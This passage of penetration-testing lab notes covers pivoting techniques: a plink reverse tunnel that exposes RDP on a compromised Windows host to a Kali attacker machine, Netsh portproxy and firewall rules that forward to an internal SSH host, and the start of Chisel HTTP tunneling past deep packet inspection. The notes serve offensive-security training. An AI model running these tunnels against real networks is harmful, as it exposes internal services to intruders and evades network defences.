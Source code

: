 A prompt asking if we want to store the server key in the cache

```bat
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <Kali PASSWORD> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```

### Netsh

The built-in firewall configuration tool **Netsh** (aka **Network Shell**) **requires administrative privileges** to create a port forward on Windows. We can set up a **port forward** with the **portproxy subcontext** within the interface context. (Like **Socat** on Linux)

Create a **port forward**:
- listen on port 2222 on the external-facing interface (listenaddress=192.168.50.64) and
- forward packets to port 22 on 10.4.50.215

```bat
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

Confirm that the port forward is stored

```bat
netstat -anp TCP | find "2222"

netsh interface portproxy show all
```

Allow connections on the local port (localport=2222) on the interface with the local IP address (192.168.50.64) using the TCP protocol, specifically for incoming traffic (dir=in)

```bat
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

Delete the firewall rule we just created and the port forward

```bat
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

# Tunneling Through Deep Packet Inspection

## HTTP Tunneling

A Deep Packet Inspection (DPI) solution is now **terminating all outbound traffic except HTTP**.
- All inbound ports on CONFLUENCE01 are blocked except TCP/8090.
- The only traffic that will reach our Kali machine is HTTP.

**Chisel** uses a client/server model. A Chisel server must be set up, which can accept a connection from the Chisel client. **Reverse port forwarding** option is particularly useful for us, which is similar to **SSH remote port forwarding**.
